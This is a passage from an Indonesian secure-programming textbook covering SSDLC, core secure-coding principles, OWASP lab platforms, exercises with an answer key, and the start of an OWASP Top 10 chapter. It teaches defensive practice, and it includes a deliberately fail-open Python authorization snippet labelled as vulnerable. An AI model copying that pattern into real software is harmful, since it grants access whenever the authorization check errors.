# BUKU AJAR
# SECURE PROGRAMMING
## VSFDKS04

---

**Program Studi:** Magister Terapan Forensik Digital dan Keamanan Siber  
**Jurusan:** Teknik Informatika dan Komputer  
**Institusi:** Politeknik Elektronika Negeri Surabaya (PENS)  
**Semester:** 1 (Gasal)  
**Bobot SKS:** T = 2, P = 1 (3 SKS)  
**Level Bloom Dominan:** C4 (Menganalisis), C3 (Menerapkan)  
**Kode Mata Kuliah:** VSFDKS04 (Kode RPS: MK-W-04)  
**Koordinator:** Ahmad Zainudin, S.ST., MT, Ph.D.  
**Versi:** 1.0 — Diselaraskan dengan RPS VSFDKS04 Tahun 2025

---

## METADATA MATA KULIAH

| Atribut | Nilai |
|---|---|
| Kode MK | VSFDKS04 |
| Nama MK | Secure Programming |
| Rumpun MK | Keilmuan Inti — Software Security, Penetration Testing & Ethical Hacking, Zero Trust & DevSecOps |
| Bobot SKS | T=2, P=1 |
| Semester | 1 (Gasal) |
| Level Bloom Dominan | C4 (Menganalisis), C3 (Menerapkan) |
| Prasyarat | Tidak ada secara administratif |
| Entry Behavior | Mampu membaca/menulis program dasar, struktur aplikasi web/API, Git, command line, dasar jaringan |
| Tanggal Penyusunan RPS | 28-05-2026 |

**CPL yang Dibebankan:**

| Kode CPL | Deskripsi |
|---|---|
| CPL2 | Menerapkan pengetahuan, teknik, keterampilan, dan tool modern untuk memecahkan masalah keteknikan |
| CPL3 | Menguasai konsep dan prinsip keamanan siber secara mendalam, termasuk mitigasi ancaman |
| CPL6 | Mampu menganalisis masalah keamanan siber secara kritis dan memberikan solusi strategis |
| CPL7 | Mampu beradaptasi dengan cepat terhadap perkembangan teknologi keamanan siber |
| CPL11 | Mampu melakukan audit sistem keamanan siber untuk memastikan kepatuhan standar |

---

## KATA PENGANTAR

Keamanan perangkat lunak bukan sekadar fitur tambahan yang ditempel di akhir proses pengembangan — ini adalah kualitas fundamental yang harus dirajut ke dalam setiap baris kode sejak awal. Data menunjukkan bahwa biaya memperbaiki kerentanan keamanan meningkat secara eksponensial seiring kemunduran dalam SDLC: kerentanan yang terdeteksi pada fase desain dapat diperbaiki dengan biaya 1x, sedangkan kerentanan yang ditemukan setelah produksi membutuhkan biaya 30x lebih besar. Namun, lebih dari sekadar biaya finansial, kerentanan dalam perangkat lunak dapat mengakibatkan kebocoran data pribadi jutaan pengguna, gangguan layanan kritis, dan kerusakan reputasi yang permanen.

Buku ajar ini dirancang untuk mahasiswa Program Studi Magister Terapan Forensik Digital dan Keamanan Siber yang ingin membangun kompetensi mendalam dalam menulis kode yang aman, mengidentifikasi dan memperbaiki kerentanan, serta mengintegrasikan keamanan ke dalam seluruh siklus pengembangan perangkat lunak. Pendekatan buku ini adalah *hands-on dan berbasis evidence* — setiap konsep teoritis diikuti dengan contoh kode nyata, studi kasus dunia nyata, dan latihan praktis yang dapat dilakukan di lingkungan lab yang aman dan terkontrol.

Penekanan kuat diberikan pada aspek legal dan etika: semua teknik analisis kerentanan dan proof-of-concept dalam buku ini **hanya dilakukan pada lingkungan lab yang diotorisasi** — WebGoat, Juice Shop, DVWA, atau aplikasi simulasi lainnya yang sengaja dibuat rentan untuk tujuan pendidikan. Tidak ada teknik dalam buku ini yang boleh diaplikasikan pada sistem nyata tanpa izin tertulis yang eksplisit.

*Ahmad Zainudin, S.ST., MT, Ph.D.*  
*Koordinator Mata Kuliah Secure Programming*  
*Program Studi Magister Terapan Forensik Digital dan Keamanan Siber, PENS*

---

## DESKRIPSI MATA KULIAH

Mata kuliah Secure Programming membekali mahasiswa dengan kemampuan menulis kode yang aman, mengidentifikasi kerentanan umum pada aplikasi, dan menerapkan prinsip *Secure Software Development Lifecycle* (SSDLC). Pembahasan mencakup OWASP Top 10, OWASP API Security Top 10, CWE Top 25, kerentanan memori, injection attacks, XSS, CSRF, SSRF, keamanan autentikasi dan sesi, SAST/DAST/SCA, SBOM, threat modeling STRIDE, code review, dan pengantar DevSecOps pipeline.

Mahasiswa melakukan analisis kerentanan kode, eksploitasi terbatas pada lab terkontrol, remediasi kode, review keamanan, dan konfigurasi security gates dalam CI/CD workflow. Evaluasi dilakukan melalui laporan lab, UTS berbasis analisis kode rentan, laporan SAST/DAST/SCA, proyek akhir DevSecOps, dan UAS praktik.

---

## PETA OBE: CPL → IK → CPMK → SUB-CPMK → EVALUASI



---

## PETA KOMPETENSI MATA KULIAH



---

## TABEL PEMETAAN OBE

| Bab | Pertemuan | Sub-CPMK | CPMK | Materi Utama | Aktivitas | Evaluasi | Artefak |
|---|---|---|---|---|---|---|---|
| 1 | 1 | Sub-CPMK.1 | CPMK.1 | SSDLC, Secure Programming Principles | Kuliah, WebGoat intro | Eval-1 | Laporan Lab |
| 2 | 2 | Sub-CPMK.1 | CPMK.1 | OWASP Top 10 2021, API Security Top 10 | Demo, Lab Juice Shop | Eval-1 | Laporan temuan |
| 3 | 3 | Sub-CPMK.1 | CPMK.1 | CWE Top 25, Vulnerability evidence & reporting | Praktikum identifikasi | Eval-1 | Laporan scanning |
| 4 | 4 | Sub-CPMK.2 | CPMK.1/2 | Kerentanan Memori (buffer overflow, UAF, format string) | Lab terkontrol | Eval-2 | Patch kode |
| 5 | 5 | Sub-CPMK.2 | CPMK.1/2 | Injection Attacks (SQLi, NoSQLi, OS command, LDAP) | Lab exploit-remediasi | Eval-2 | Patch kode |
| 6 | 6 | Sub-CPMK.2 | CPMK.1/2 | XSS, CSRF, SSRF | Lab terkontrol | Eval-2 | Patch kode |
| 7 | 7 | Sub-CPMK.2 | CPMK.1/2 | Secure Auth, Session, OAuth 2.0/JWT | Workshop patching | Eval-2 | Patch kode |
| 8 | 8 | Sub-CPMK.3 | CPMK.1/2 | UTS — Integrasi Per 1-7 | Ujian analisis kode | Eval-3 UTS | — |
| 9 | 9 | Sub-CPMK.2 | CPMK.2 | Secure API Design, REST Security | Praktikum API | Eval-2 | Patch kode API |
| 10 | 10 | Sub-CPMK.4 | CPMK.3 | SAST: SonarQube, Semgrep, CodeQL | Hands-on lab | Eval-4 | Laporan SAST |
| 11 | 11 | Sub-CPMK.4 | CPMK.3 | DAST: OWASP ZAP, Burp Suite | Lab DAST | Eval-4 | Laporan DAST |
| 12 | 12 | Sub-CPMK.4 | CPMK.3 | SCA, SBOM, Supply Chain Security | Lab SCA | Eval-4 | Laporan SCA/SBOM |
| 13 | 13 | Sub-CPMK.5 | CPMK.4 | STRIDE Threat Modeling | Workshop threat model | Eval-5 | Threat Model |
| 14 | 14 | Sub-CPMK.5 | CPMK.4 | Peer Code Review, Secure Design Patterns | Code review clinic | Eval-5 | Review report |
| 15 | 15 | Sub-CPMK.5 | CPMK.4 | DevSecOps: CI/CD Pipeline, Security Gates | Project studio | Eval-5 | Pipeline YAML |
| 16 | 16 | Sub-CPMK.6 | CPMK.1-4 | UAS Praktik Komprehensif | Ujian praktik timed lab | Eval-6 UAS | Laporan UAS |

---

## PETUNJUK PENGGUNAAN BUKU

Buku ajar ini dirancang sebagai panduan belajar mandiri sekaligus referensi lab. Beberapa catatan penting:

**Untuk teori:** Baca Bagian Landasan Teori dan Contoh Terapan secara mendalam sebelum masuk ke lab. Kode yang ditampilkan dalam buku ini menggunakan format yang jelas antara *kode rentan* (ditandai komentar `// RENTAN`) dan *kode aman* (ditandai `// AMAN`).

**Untuk lab:** Semua aktivitas praktikum **wajib** dilakukan hanya pada lingkungan yang diotorisasi: WebGoat, DVWA, Juice Shop, atau VM/container yang sengaja disiapkan untuk tujuan pendidikan. **Jangan** mencoba teknik apapun pada sistem nyata tanpa izin tertulis.

**Untuk evaluasi:** Setiap bab mencantumkan hubungannya dengan Sub-CPMK dan evaluasi RPS. Gunakan rubrik penilaian (Lampiran F) untuk menilai kualitas laporan dan patch kode Anda sendiri sebelum dikumpulkan.

---

## DAFTAR BAB

| Bab | Judul | Pertemuan | Sub-CPMK | Evaluasi |
|---|---|---|---|---|
| 1 | Pengantar Secure Programming dan SSDLC | 1 | Sub-CPMK.1 | Eval-1 |
| 2 | OWASP Top 10 dan API Security Top 10 | 2 | Sub-CPMK.1 | Eval-1 |
| 3 | CWE Top 25 dan Identifikasi Kerentanan Awal | 3 | Sub-CPMK.1 | Eval-1 |
| 4 | Kerentanan Memori: Buffer Overflow, Use-After-Free, Format String | 4 | Sub-CPMK.2 | Eval-2 |
| 5 | Injection Attacks: SQL, NoSQL, OS Command, LDAP | 5 | Sub-CPMK.2 | Eval-2 |
| 6 | XSS, CSRF, dan SSRF | 6 | Sub-CPMK.2 | Eval-2 |
| 7 | Secure Authentication dan Session Management | 7 | Sub-CPMK.2 | Eval-2 |
| 8 | UTS: Analisis Kode Rentan dan Secure Coding | 8 | Sub-CPMK.3 | Eval-3 UTS |
| 9 | Secure API Design dan REST Security | 9 | Sub-CPMK.2 | Eval-2 |
| 10 | SAST: SonarQube, Semgrep, dan CodeQL | 10 | Sub-CPMK.4 | Eval-4 |
| 11 | DAST: OWASP ZAP dan Burp Suite | 11 | Sub-CPMK.4 | Eval-4 |
| 12 | SCA, SBOM, dan Software Supply Chain Security | 12 | Sub-CPMK.4 | Eval-4 |
| 13 | Threat Modeling dengan STRIDE | 13 | Sub-CPMK.5 | Eval-5 |
| 14 | Peer Code Review dan Secure Design Patterns | 14 | Sub-CPMK.5 | Eval-5 |
| 15 | DevSecOps: CI/CD Pipeline dan Security Gates | 15 | Sub-CPMK.5 | Eval-5 |
| 16 | UAS Praktik: Identifikasi dan Remediasi Komprehensif | 16 | Sub-CPMK.6 | Eval-6 UAS |

---

# BAB 1 — PENGANTAR SECURE PROGRAMMING DAN SSDLC

**Pertemuan:** 1  
**Sub-CPMK:** Sub-CPMK.1  
**CPMK:** CPMK.1  
**Evaluasi:** Eval-1 (Lab OWASP/identifikasi kerentanan, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 1, mahasiswa mampu:

- Menjelaskan perbedaan mendasar antara SDLC konvensional dan Secure Software Development Lifecycle (SSDLC).
- Mengidentifikasi titik-titik dalam SDLC di mana aktivitas keamanan seharusnya diintegrasikan.
- Menjelaskan prinsip-prinsip dasar secure programming: *secure by default*, *least privilege*, *fail securely*, *defense in depth*, dan *don't trust input*.
- Memahami konsep *shift-left security* dan implikasinya terhadap biaya dan efektivitas keamanan perangkat lunak.
- Menjelaskan tujuan dan isi WebGoat/Juice Shop sebagai platform pembelajaran keamanan aplikasi.

*Kaitan OBE: Sub-CPMK.1 → CPMK.1 → IK-3.a → CPL3 → Eval-1*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Setiap hari, jutaan baris kode baru ditulis oleh developer di seluruh dunia. Sebagian besar kode tersebut berinteraksi dengan data sensitif, mengelola keuangan, atau mengendalikan infrastruktur kritis. Namun, dalam tekanan untuk menyelesaikan fitur secepat mungkin, keamanan sering menjadi pertimbangan terakhir — atau tidak sama sekali.

Hasilnya dapat dilihat dalam statistik yang mengkhawatirkan: OWASP memperkirakan bahwa 70% aplikasi web mengandung kerentanan yang dapat dieksploitasi. Verizon DBIR 2024 menunjukkan bahwa *web application attacks* adalah vektor insiden paling umum dalam pelanggaran data. Dan laporan IBM Cost of a Data Breach 2024 memperkirakan rata-rata biaya satu pelanggaran data adalah USD 4,88 juta — sebagian besar dapat dicegah dengan praktik secure coding yang konsisten.

Mata kuliah ini menjawab pertanyaan fundamental: *Bagaimana menulis kode yang aman sejak awal, dan bagaimana menemukan serta memperbaiki kerentanan yang sudah ada?*

---

## 4. Landasan Teori

### 4.1 SDLC Konvensional vs SSDLC

**SDLC (Software Development Lifecycle) Konvensional:**
Proses tradisional pengembangan perangkat lunak yang berfokus pada fungsionalitas: Requirements → Design → Implementation → Testing → Deployment → Maintenance. Keamanan, jika dipertimbangkan, biasanya hanya muncul di fase Testing — terlambat untuk memperbaiki kelemahan desain fundamental.

**SSDLC (Secure Software Development Lifecycle):**
Integrasi aktivitas keamanan di setiap fase SDLC, bukan sekadar tambahan di akhir.

| Fase SDLC | Aktivitas Keamanan dalam SSDLC |
|---|---|
| **Requirements** | Security requirements, privacy requirements, regulatory compliance, abuse cases |
| **Design** | Threat modeling (STRIDE), security architecture review, secure design patterns |
| **Implementation** | Secure coding standards, code review, SAST (otomatis), dependency scanning |
| **Testing** | DAST, penetration testing, fuzz testing, security regression testing |
| **Deployment** | Security configuration review, container scanning, IaC security scanning |
| **Maintenance** | Vulnerability monitoring, patch management, SBOM maintenance, incident response |

**Framework SSDLC yang Diakui:**
- **Microsoft SDL** (Security Development Lifecycle): Framework yang dipopulerkan Microsoft setelah Trustworthy Computing initiative 2002
- **NIST SSDF** (Secure Software Development Framework, SP 800-218): Framework pemerintah AS yang komprehensif
- **OWASP SAMM** (Software Assurance Maturity Model): Model kematangan untuk program keamanan perangkat lunak

### 4.2 Prinsip-Prinsip Dasar Secure Programming

**1. Secure by Default**
Sistem harus aman dalam konfigurasi default-nya. Pengguna tidak perlu melakukan konfigurasi tambahan untuk mendapatkan keamanan dasar.

*Contoh yang benar:* Fitur berbagi dokumen defaultnya "private"; pengguna harus secara aktif memilih untuk membuatnya "public".  
*Contoh yang salah:* Database MongoDB versi lama yang defaultnya tanpa autentikasi — menyebabkan ribuan database terekspos ke internet.

**2. Least Privilege**
Setiap komponen (pengguna, proses, modul) hanya mendapat hak akses minimum yang diperlukan untuk fungsinya.

*Contoh:* Aplikasi web yang hanya perlu membaca data dari database seharusnya menggunakan database user dengan hak `SELECT` saja, bukan `root` atau `DBA`.

**3. Fail Securely**
Ketika sistem gagal, ia harus gagal ke kondisi yang aman — bukan ke kondisi yang memberikan akses atau informasi tambahan.

```python
# RENTAN — Gagal terbuka (fail open)
try:
    if user.is_authorized(resource):
        return resource
except Exception as e:
    # Jika ada error, tetap kembalikan resource!
    return resource  # BERBAHAYA

# AMAN — Gagal tertutup (fail closed)
try:
    if user.is_authorized(resource):
        return resource
    else:
        raise PermissionDenied()
except Exception as e:
    log.error(f"Authorization check failed: {e}")
    raise PermissionDenied()  # Default: tolak akses
```

**4. Don't Trust Input — Validate Everything**
Semua input dari luar sistem (user input, API response, file upload, environment variables, database) harus dianggap tidak terpercaya sampai terbukti sebaliknya. Validasi pada sisi server adalah wajib — validasi client-side mudah dibypass.

**5. Defense in Depth**
Jangan mengandalkan satu lapisan keamanan. Berlapis-lapis kontrol memastikan bahwa kegagalan satu kontrol tidak menyebabkan kompromi total.

*Contoh untuk SQL Injection:* Layer 1: Input validation. Layer 2: Parameterized queries. Layer 3: WAF. Layer 4: Database user dengan hak minimal. Layer 5: Monitoring untuk query anomali.

**6. Keep Security Simple**
Kompleksitas adalah musuh keamanan. Kode yang kompleks lebih sulit dianalisis, diaudit, dan lebih mungkin mengandung kerentanan tersembunyi. *Keep It Simple, Secure* (KISS principle).

**7. Separation of Duties**
Fungsi-fungsi yang berbeda harus dipisahkan sehingga tidak ada satu entitas yang memiliki kontrol penuh atas proses kritis.

### 4.3 Shift-Left Security: Konsep dan Implikasi Biaya

"Shift-left" berarti memindahkan aktivitas keamanan ke fase-fase awal dalam SDLC (ke "kiri" pada garis waktu). Alasan ekonomisnya sederhana:

**Biaya Relatif Perbaikan Kerentanan (IBM Systems Sciences Institute):**
| Fase Penemuan | Biaya Relatif |
|---|---|
| Design/Requirements | 1x |
| Implementation/Coding | 6x |
| Integration Testing | 15x |
| Beta/UAT | 30x |
| Production | 60-100x |

Kerentanan SQL Injection yang terdeteksi dalam code review saat pengembangan mungkin membutuhkan 2 jam untuk diperbaiki. Kerentanan yang sama ditemukan setelah breach produksi dapat membutuhkan: investigasi forensik, notifikasi pelanggan, denda regulasi, remediasi darurat, dan pemulihan reputasi — total biaya yang tidak terhitung.

### 4.4 Platform Lab Pembelajaran: WebGoat dan Juice Shop

**WebGoat (OWASP):**
Aplikasi web Java yang sengaja dibuat rentan oleh OWASP untuk tujuan pendidikan. Menyediakan pelajaran interaktif dengan penjelasan teori, latihan eksploitasi bertahap, dan petunjuk. Cocok untuk belajar kategori OWASP Top 10 secara terstruktur.

**DVWA (Damn Vulnerable Web Application):**
Aplikasi PHP/MySQL dengan tingkat kesulitan yang dapat dikonfigurasi (Low/Medium/High/Impossible). Sangat cocok untuk mempelajari SQL injection, XSS, CSRF, file upload, dan lainnya dengan kontrol tingkat kesulitan.

**OWASP Juice Shop:**
Aplikasi e-commerce modern (Node.js/Angular) dengan lebih dari 100 tantangan keamanan. Lebih realistis dari WebGoat karena menggunakan teknologi modern. Tantangan dari level "beginner" hingga "expert".

**Prinsip Utama Penggunaan Lab:**
Semua eksploitasi hanya dilakukan pada aplikasi-aplikasi ini yang berjalan secara lokal di lingkungan yang terisolasi. Jaringan lab tidak terhubung ke internet produksi.

---

## 5. Model atau Arsitektur

### 5.1 Arsitektur SSDLC Terintegrasi



---

## 6. Contoh Terapan

### Studi Kasus: Penerapan SSDLC di Startup Fintech

**Konteks:** Sebuah startup fintech mengembangkan aplikasi pinjaman P2P baru. Tim developer berjumlah 5 orang dengan deadline 3 bulan.

**Pendekatan Tanpa SSDLC (Model Lama):**
Developer fokus penuh pada fitur; "security review" dilakukan seminggu sebelum launch oleh konsultan eksternal; ditemukan 23 kerentanan termasuk SQL injection pada form pendaftaran; remediasi darurat memakan waktu 3 minggu; launch tertunda.

**Pendekatan Dengan SSDLC (Model Baru):**

*Phase Requirements (Minggu 1):* Security requirements didefinisikan: enkripsi data nasabah, autentikasi dua faktor, rate limiting API. Abuse cases diidentifikasi: brute force login, bypass KYC, manipulasi amount pinjaman.

*Phase Design (Minggu 2):* Threat modeling STRIDE dilakukan untuk semua API endpoint. Desain keamanan: OAuth 2.0 untuk autentikasi, JWT dengan expiry pendek, input validation di layer API.

*Phase Implementation (Minggu 3-10):* Secure coding guidelines dibagikan ke semua developer. SAST (SonarQube) diintegrasikan ke CI/CD — pipeline gagal jika ada temuan Critical/High. Peer code review dengan security checklist.

*Phase Testing (Minggu 11-12):* DAST dengan OWASP ZAP. 4 kerentanan Medium ditemukan dan diperbaiki sebelum launch.

**Hasil:** Launch tepat waktu; tidak ada kerentanan Critical/High saat launch; biaya perbaikan 40% lebih rendah dibandingkan model lama.

---

## 7. Praktikum — Pengantar WebGoat dan Identifikasi Kerentanan Awal

**Tujuan:** Membiasakan mahasiswa dengan platform lab dan alur kerja identifikasi-dokumentasi kerentanan.

**Prasyarat:** Docker terinstal; WebGoat dan OWASP ZAP tersedia secara lokal.

**Lingkungan Lab:**
```bash
# Jalankan WebGoat secara lokal
docker run -d -p 8080:8080 -p 9090:9090 \
  -e TZ=Asia/Jakarta \
  webgoat/webgoat

# Akses di: http://localhost:8080/WebGoat
```

**Langkah Kerja:**
1. Jalankan WebGoat dan buat akun baru
2. Navigasi ke bagian "Introduction" dan "General"
3. Selesaikan 3 challenge dari kategori berbeda (pilih: HTTP Basics, Developer Tools, CIA Triad)
4. Untuk setiap challenge: catat nama kerentanan, bukti (screenshot), dampak potensial, dan rekomendasi mitigasi

**Format Laporan (Template Lampiran A):**
- Identitas lab (nama, NIM, tanggal, environment)
- Untuk setiap temuan: Nama kerentanan | Kategori OWASP/CWE | Bukti | Dampak | Rekomendasi

**Kriteria Keberhasilan:**
- Minimal 3 temuan terdokumentasi dengan bukti
- Setiap temuan memiliki referensi OWASP atau CWE yang tepat
- Rekomendasi mitigasi yang spesifik dan teknis

**Catatan Etika:** Semua aktivitas hanya di localhost WebGoat. Tidak ada aktivitas di luar lingkungan lab yang ditetapkan.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Prinsip "fail securely" berarti:
A. Sistem harus selalu berhasil tanpa error  
B. Ketika gagal, sistem jatuh ke kondisi yang memberikan akses minimum  
C. Sistem menggunakan fallback server jika server utama gagal  
D. Error message menampilkan detail teknis untuk debugging

**Soal 2 (PG):** Aktivitas keamanan yang PALING tepat dilakukan pada fase Requirements SSDLC adalah:
A. Penetration testing  
B. SAST scanning  
C. Mendefinisikan security requirements dan abuse cases  
D. Container image scanning

**Soal 3 (Esai):** Jelaskan konsep "shift-left security" beserta justifikasi ekonomisnya. Mengapa biaya memperbaiki kerentanan meningkat drastis seiring mundurnya fase penemuan?

**Soal 4 (Analisis):** Sebuah developer berargumen: "Validasi input di client-side (JavaScript) sudah cukup untuk mencegah SQL injection karena user tidak bisa bypass UI." Evaluasi argumen ini dan jelaskan mengapa pendekatan ini tidak aman.

**Soal 5 (Perancangan):** Anda adalah security champion untuk tim pengembang aplikasi HR yang akan mengelola data gaji dan rekam kerja karyawan. Bagaimana Anda merancang security requirements untuk aplikasi ini? Sebutkan minimal 5 security requirements yang spesifik dan terukur.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Audit SSDLC Perusahaan E-Commerce

Sebuah perusahaan e-commerce dengan 500.000 pengguna aktif mengalami kebocoran data: 300.000 record pelanggan (nama, email, nomor kartu kredit terenkripsi, alamat) terekspos. Investigasi menemukan bahwa aplikasi tidak memiliki SSDLC — semua testing dilakukan manual sebelum release tanpa alat khusus, dan tidak ada threat modeling.

**Pertanyaan:**
1. **Root Cause Analysis (C4)**: Berdasarkan deskripsi insiden, identifikasi minimal 4 gap dalam proses SSDLC yang kemungkinan berkontribusi pada terjadinya breach ini. Untuk setiap gap, jelaskan aktivitas SSDLC mana yang seharusnya ada dan bagaimana aktivitas tersebut dapat mencegah atau membatasi dampak insiden.

2. **Roadmap SSDLC (C4)**: Rancang roadmap implementasi SSDLC 6 bulan untuk perusahaan ini. Prioritaskan berdasarkan risiko: apa yang harus dilakukan dalam 30 hari pertama, apa yang dapat dilakukan dalam 90 hari, dan apa target 6 bulan? Justifikasi urutan prioritas Anda.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** "Fail securely" atau "fail closed" berarti ketika terjadi error atau kondisi yang tidak terduga, sistem harus default ke penolakan akses, bukan ke pemberian akses. Jawaban A salah karena sistem pasti bisa gagal. Jawaban C tentang failover server, bukan tentang keamanan saat gagal. Jawaban D adalah anti-pattern — error message detail membantu penyerang (information disclosure).

**Soal 2 — C:** Fase Requirements adalah tempat yang tepat untuk mendefinisikan *apa* yang harus dijaga — security requirements (enkripsi, autentikasi, authorization) dan abuse cases (bagaimana sistem bisa disalahgunakan). Pentest (A) dan SAST (B) adalah aktivitas implementation/testing. Container scanning (D) adalah aktivitas deployment.

**Soal 3:** Shift-left berarti menggeser aktivitas keamanan ke fase-fase awal SDLC. Justifikasi ekonomis: kerentanan yang ditemukan lebih awal lebih murah diperbaiki karena (a) belum ada kode lain yang bergantung pada kode bermasalah, (b) tidak ada dampak ke pengguna, (c) perbaikan bisa dilakukan dalam konteks pengembangan normal tanpa krisis. Sebaliknya, kerentanan di produksi membutuhkan: investigasi, emergency patching, komunikasi pelanggan, potensi denda regulasi, dan pemulihan reputasi — total jauh lebih mahal.

**Soal 4:** Argumen ini salah karena validasi client-side dapat dengan mudah dibypass: (a) penyerang dapat menonaktifkan JavaScript di browser; (b) penyerang dapat mengirim request langsung ke server menggunakan tools seperti curl, Burp Suite, atau Python requests — melewati UI sepenuhnya; (c) DOM manipulation dapat mengubah input sebelum dikirim ke server. Prinsip "don't trust input" mewajibkan validasi di sisi server, bukan hanya client. Client-side validation berguna untuk UX (feedback cepat ke pengguna), tetapi tidak untuk keamanan.

---

## 11. Ringkasan Bab

SSDLC mengintegrasikan keamanan ke setiap fase pengembangan perangkat lunak, bukan hanya sebagai pemeriksaan akhir. Prinsip-prinsip dasar secure programming — secure by default, least privilege, fail securely, don't trust input, defense in depth, dan simplicity — membentuk landasan mental yang harus dimiliki setiap developer.

Shift-left security bukan hanya filosofi — ini adalah keputusan bisnis yang rasional. Biaya memperbaiki kerentanan meningkat secara dramatis seiring kemunduran fase penemuannya. Platform lab seperti WebGoat dan Juice Shop menyediakan lingkungan aman untuk mempraktikkan teknik identifikasi dan eksploitasi kerentanan tanpa risiko terhadap sistem nyata.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Banyak developer merasa bahwa security requirements "memperlambat" pengembangan. Sebagai security champion dalam tim, bagaimana Anda membangun argumen bahwa investasi waktu awal dalam keamanan sebenarnya menghemat waktu secara keseluruhan? Apa data atau contoh konkret yang akan Anda gunakan?

**Pertanyaan Refleksi 2:** SSDLC mewajibkan developer untuk memiliki security mindset — memikirkan bagaimana kode mereka bisa disalahgunakan, bukan hanya bagaimana kode bekerja dengan benar. Apakah ini tanggung jawab individual developer, tim keamanan, atau keduanya? Bagaimana struktur insentif organisasi seharusnya didesain untuk mendukung security mindset ini?

---


---

# BAB 2 — OWASP TOP 10 DAN API SECURITY TOP 10

**Pertemuan:** 2  
**Sub-CPMK:** Sub-CPMK.1  
**CPMK:** CPMK.1  
**Evaluasi:** Eval-1

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 2, mahasiswa mampu:

- Mengidentifikasi dan menjelaskan semua 10 kategori OWASP Top 10 2021 beserta contoh kerentanannya.
- Mengidentifikasi dan menjelaskan semua 10 kategori OWASP API Security Top 10 2023.
- Membedakan karakteristik risiko aplikasi web dari risiko keamanan API.
- Mengklasifikasikan kerentanan yang ditemukan pada lab ke dalam kategori OWASP yang tepat.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    OWASP["OWASP Keamanan\nAplikasi"] --> WebTop10["OWASP Top 10 (2021)\nAplikasi Web"]
    OWASP --> APITop10["OWASP API Security\nTop 10 (2023)"]

    WebTop10 --> A01["A01: Broken Access Control"]
    WebTop10 --> A02["A02: Cryptographic Failures"]
    WebTop10 --> A03["A03: Injection"]
    WebTop10 --> A04["A04: Insecure Design"]
    WebTop10 --> A05["A05: Security Misconfiguration"]
    WebTop10 --> A06["A06: Vulnerable & Outdated Components"]
    WebTop10 --> A07["A07: Identification & Auth Failures"]
    WebTop10 --> A08["A08: Software & Data Integrity Failures"]
    WebTop10 --> A09["A09: Security Logging & Monitoring Failures"]
    WebTop10 --> A10["A10: SSRF"]

    APITop10 --> API1["API1: Broken Object Level Authorization"]
    APITop10 --> API2["API2: Broken Authentication"]
    APITop10 --> API3["API3: Broken Object Property Level Auth"]
    APITop10 --> API4["API4: Unrestricted Resource Consumption"]
    APITop10 --> API5["API5: Broken Function Level Authorization"]
```

---

## 3. Pengantar Kontekstual

OWASP (Open Web Application Security Project) adalah organisasi nirlaba yang memproduksi metodologi, dokumentasi, dan tools untuk keamanan aplikasi web. OWASP Top 10 adalah daftar konsensus komunitas keamanan global tentang risiko keamanan aplikasi web yang paling kritis — dipublikasikan berdasarkan data dari ratusan organisasi dan ribuan aplikasi nyata.

OWASP Top 10 bukan daftar statis — ia diperbarui secara berkala untuk mencerminkan evolusi ancaman. Versi 2021 membawa perubahan signifikan: *Broken Access Control* naik ke posisi pertama (sebelumnya A05), dan kategori baru *Insecure Design* (A04) ditambahkan untuk pertama kalinya, menekankan bahwa kerentanan dapat berasal dari kelemahan desain — bukan hanya implementasi.

